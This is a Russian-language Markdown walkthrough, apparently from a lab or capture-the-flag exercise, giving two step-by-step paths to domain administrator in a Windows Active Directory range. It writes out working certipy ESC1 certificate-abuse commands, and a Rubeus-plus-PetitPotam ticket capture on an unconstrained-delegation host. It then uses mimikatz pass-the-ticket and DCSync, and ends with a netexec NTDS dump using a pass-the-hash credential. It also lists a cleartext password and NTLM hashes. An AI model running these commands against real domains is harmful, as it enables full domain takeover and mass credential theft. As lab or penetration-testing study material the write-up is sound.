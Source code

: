 # Requirements
https://www.netexec.wiki/getting-started/installation/installation-on-unix
https://github.com/topotam/PetitPotam
https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe
https://github.com/ParrotSec/mimikatz/blob/master/x64/mimikatz.exe


## Первый вариант взятия ДОМЕН АДМИНА
  asrep roasting r3n0, (пароль `P@ssw0rd`). Через certipy видно что от данного пользака можно сделать ESC1. 
```certipy-ad req -u R3n0 -hashes 8f81de1111733d3a03cdcfd31ae696de -dc-ip 172.31.200.102 -ca nightcity-DC-02-CA -template Faraday -upn administrator@NIGHTCITY.CORP -debug```
```sudo apt install ntpdate && sudo ntpdate 172.31.200.101```
```certipy-ad auth -pfx administrator.pfx -dc-ip 172.31.200.101 -debug```


## Второй вариант взятия ДОМЕН АДМИНА
На шаре pacifica\Dogtown - лежал пароль локал админа этой тачки. Видим что pacifica имеет права неограниченного дегерирования. Заходит на хост по рдп, закидываем rubeus.exe. Ставим ```.\Rubeus.exe monitor /interval:5``` Параллельно делаем petitpotam.py скачать с гита. ```python3 PetitPotam.py pacifica.NIGHTCITY.CORP 172.31.200.101```. В окне рубеусе появляется новый билетик для DC-01.
![типа такого будет](https://habrastorage.org/r/w1560/getpro/habr/upload_files/abe/6dd/48d/abe6dd48dd0602f5780b37462f13ffc7.png)
Теперь закидываем еще мимик на тачку
```
[IO.File]::WriteAllBytes("C:\Users\David\Desktop\ticket-filename.kirbi", [Convert]::FromBase64String(“base64-ticket”))
Mimikatz.exe
privilege::debug
kerberos::ptt C:\Users\David\Desktop\ticket-filename.kirbi
lsadump::dcsync /user:Administrator
```
Остается получить ntds ```nxc smb 172.31.200.101 -u Administrator -H 90c1e25b12005c3146f13228043aa87d  --ntds```
